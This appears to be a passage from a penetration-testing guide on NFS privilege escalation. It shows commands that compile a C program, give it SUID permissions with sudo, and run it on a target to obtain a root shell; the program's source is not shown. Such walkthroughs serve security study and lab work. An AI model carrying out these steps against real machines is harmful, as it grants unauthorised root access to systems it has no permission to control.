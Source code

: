 {% endcode %}

***

* Compile the script and give it SUID Permissions

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cd /tmp/Attack
</strong><strong>nano nfs.c    #Create the script as above
</strong>sudo gcc nfs.c -o nfs -w
<strong>sudo chmod u+s nfs
</strong>ls -l     #To check if it has a permission on user
</code></pre>

***

* On the target machine run the script to get privileges

{% code overflow="wrap" lineNumbers="true" %}
```bash
./nfs
#This will return a root shell
```
{% endcode %}
